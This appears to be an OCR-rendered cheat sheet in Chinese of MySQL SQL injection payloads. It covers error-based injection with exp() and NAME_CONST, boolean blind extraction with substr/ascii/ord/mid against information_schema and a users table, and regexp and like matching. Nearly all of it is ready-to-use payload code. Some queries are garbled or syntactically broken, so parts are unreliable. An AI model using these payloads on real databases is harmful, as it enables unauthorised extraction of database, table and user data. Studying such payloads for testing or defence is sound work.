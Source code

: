 exp
```
select exp(~(select * FROM(SELECT USER())a))
```

mysql重复性
```
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
```
- 布尔注入

```
left(database(),1)>'s'

截取数据库第一位
```

```
ascii(substr((select table_name information_schema.tables where tables_schema =database()limit 0,1),1,1))=101 --+
```
```
substr(a,b,c) 从b位置开始，截取字符串a的c长度
```
```
ascii() 将某个字符转为ascii值
```
```
ascii(substr(select database()),1,1)=98
```
```
ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23
```
```
mid(a,b,c) 从位置b开始，街区a字符床的c位
```
```
ord()同ascii()，将字符串转为ascii值
```

regexp 正则注入

```
select user() regexp '^[a-z]';

select user() regexp '^ro'

I select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);

```

like 匹配注入

```
select user() like 'root%'
```
